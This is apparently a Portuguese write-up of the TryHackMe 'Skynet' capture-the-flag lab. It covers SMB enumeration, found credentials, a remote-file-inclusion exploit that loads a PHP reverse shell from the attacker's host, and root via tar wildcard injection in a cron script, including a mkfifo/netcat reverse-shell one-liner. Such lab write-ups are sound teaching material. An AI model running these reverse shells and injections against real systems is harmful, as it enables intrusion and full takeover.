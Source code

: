 Primeiramente, utilizamos o `nmap` para varrer a rede

`nmap -sS --open -Pn 10.10.201.187 -sV`

```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A partir da dica da room, enumeramos o samba com o `smbclient` 

```bash
Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            SKYNET
```

A pergunta pede a senha do email de Miles, com isso podemos nos conectar em `milesdyson` 

com o mesmo `smbclient`,porém não conseguimos acesso, então tentamos com o sharename **anonymous** e conseguimos acesso.

`smbclient //10.10.201.187/anonymous -N`

Com acesso, vemos que tem um arquivo chamado *attention.txt* e um diretório chamado ***logs***

No arquivo temos o seguinte:

> A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
> 

Já no diretório *logs,* temos 3 arquivos: log1.txt, log2.txt, log3.txt

Os aquivos log2.txt e log3.txt estão vazios, mas o log1.txt, tem o que nos interessa que é a senha do e-mail do Miles, que no caso é `cyborg007haloterminator` .

Fazendo uma busca por diretórios usando o `gobuster` achamos `/squirrelmail` e quando tentamos acessar com as credenciais de Miles, conseguimos o acesso.

Com acesso vemos que existem 3 e-mails, onde o primeiro já nos fala a senha do smb do miles, os outros dois contém o seguinte:

```
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111
```

```
i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
```

Já no e-mail que nos interessa, temos:

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

Com a senha podemos acessar o smb de Miles, acessando e executando o comando `ls` vemos a pasta `notes` e dentro desta pasta vemos o arquivo `important.txt` , baixando esse arquivo encontramos:

```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

No item 1 temos um diretório e fazendo uma busca por diretórios na URL: `http://10.10.201.187/45kra24zxs28v3yd/`

achamos o folder `/administrator`. Buscando no site exploit-db.com, acha-se o exploit de Local/Remote File Inclusion de `EDB-ID 25971`.

A partir disso tentaremos conseguir acesso usando conceitos da vulnerabilidade de Remote File Inclusion. Primeiramente, vamos levantar o servidor python:

`python3 -m http.server 80`

Após isso vamos em outra janela do terminal vamos ficar ouvindo a conexão com o netcat:

`nc -lvp 1234` → **Mesma porta do colocamos no php-reverse-shell**

Feito essas duas etapas vamos baixar o arquivo [php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) e mudar as infos que é pedida no script. Daí com a ferramenta `curl` ou na URL, vamos tomar acesso ao ambiente da seguinte forma:

`10.10.201.187/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://VPN-IP:80/php-reverse-shell.php`

Assim conseguimos acesso e indo em `/home/milesdyon` pegamos a flag de usuário.

Para subir privilégio, vamos enumerar o ambiente linux e após algumas verificações, achamos no arquivo `/etc/crontab`

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

Note que podemos ver o arquivo **backup.sh**

Olhando este arquivo, vemos:

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Aqui temos o **tar,** com os conhecimentos da room de [linux privilege escalation](https://tryhackme.com/room/linuxprivesc), mais precisamente de **wildcard,** conseguimos subir para admin.

1 - Entramos em `cd /var/www/html`

2 - criamos uma shell netcat `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc VPN_IP 4444 >/tmp/f` e passamos para um arquivo.

Exemplo:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc VPN_IP 4444 >/tmp/f" > shell.sh
```

3 - Abrimos outra janela e ficamos ouvindo com o netcat na porta da shell, no caso 4444

4 - Fazemos: `touch /var/www/html/ --checkpoint=1` e depois `touch /var/www/html/ --checkpoint-action=exec=shell.sh`

5 - Conseguimos a shell root e indo até `/root` pegamos a flag para concluir o ctf.
